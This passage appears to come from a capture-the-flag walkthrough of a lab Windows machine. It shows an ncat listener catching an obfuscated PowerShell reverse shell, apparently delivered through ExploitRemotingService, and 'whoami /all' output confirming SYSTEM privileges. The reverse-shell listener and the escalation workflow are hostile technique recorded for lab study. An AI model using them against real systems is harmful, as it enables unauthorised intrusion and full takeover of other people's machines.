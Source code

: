 Got a hit on my python server downloading the obfuscated powershell reverse shell


### Getting a shell

```
PS C:\Users\User\Desktop\ExploitRemotingService-master\ExploitRemotingService\bin\Debug\Release> .\ncat.exe -lvn 9001
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.219:49764.
PS>whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
```